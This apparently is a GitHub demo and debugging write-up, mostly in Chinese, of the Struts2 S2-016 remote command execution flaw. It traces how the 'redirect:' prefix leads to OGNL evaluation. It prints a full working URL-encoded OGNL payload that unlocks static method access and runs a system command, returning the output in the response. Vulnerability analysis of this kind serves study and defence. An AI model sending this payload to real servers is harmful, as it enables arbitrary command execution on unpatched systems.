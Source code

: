 # S2-016 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software:  `Struts 2.0.0` - `Struts 2.3.15`

Problem: 在struts2中，DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令。

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![{D52E437C-44A0-486D-97BE-29F2AFCC8FD4}_20200722102709]({D52E437C-44A0-486D-97BE-29F2AFCC8FD4}_20200722102709.jpg)

Payload: 

```java
index.action?redirect:%24%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22calc%22%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B5000%5D%2C%23c.read%28%23d%29%2C%23genxor%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2C%23genxor.println%28%23d%29%2C%23genxor.flush%28%29%2C%23genxor.close%28%29%7D
```

## Debug

关注两点，第一是`redirect:<ognl>`是如何被处理的；第二，`payload`是如何被解析的。

在核心过滤器FilterDispatcher类的dofilter()函数下个断点，它负责拦截所有的用户请求。

s2-016/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/dispatcher/FilterDispatcher.class:181

![image-20200723111523847](img/dofilter.png)

doFilter先进行创建值栈、上下文、包装request等一些初始化操作，然后进入getMapping()方法，通过uri解析对应的action配置信息，例如namespace、actionname、method。跟进getMapping()：

![image-20200723111435992](img/getMapping.png)

parseNameAndNamespace()方法根据uri和配置文件中的namespace进行对比来判断namespace。hadleSpecialParameters()方法顾名思义是处理某些特殊参数。跟入hadleSpecialParameters()：

![image-20200723111152848](img/handleSpecialParameters.png)

首先获取到request中所有参数名，遍历看是否有以`.x`和`.y`结尾的参数名，`prefixTrie.get(key)`判断参数名是否都是有效字符。

再跟入`parameterAction.execute()`，可以看到`redirect.setLocation()`方法将`redirect:`后面的内容设置为了`location`。

![image-20200723115019593](img/redirect.png)

到这里第一个问题知道了，就是`redirect:`后面的`ognl`表达式进入了`location`参数。

再看看这个location什么时候被解析。回到doFilter()，继续往下进入serviceAction()：

![image-20200723145024705](img/execute.png)

先获取Configuration对象，通过Configuration得到容器对象，再从容器中获取ActionProxyFactory工厂类创建ActionProxy动态代理。

mapping.getResult()不为null，根据Result配置创建出相应的Result对象，然后执行Result的execute方法。跟入execute()：

```java
    public void execute(ActionInvocation invocation) throws Exception {
        this.lastFinalLocation = this.conditionalParse(this.location, invocation);
        this.doExecute(this.lastFinalLocation, invocation);
    }
```

到了熟悉的地方——conditionalParse()方法，该函数用于处理跳转地址location，会判断location是否有ognl表达式，有的话将会执行表达式。一直跟入translateVariables()，到stack.findValue触发执行ognl表达式。

![image-20200723151111362](img/frame.png)

## Reference

- [S2-016](https://cwiki.apache.org/confluence/display/WW/S2-016)
- [S2-016 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-016/README.zh-cn.md)

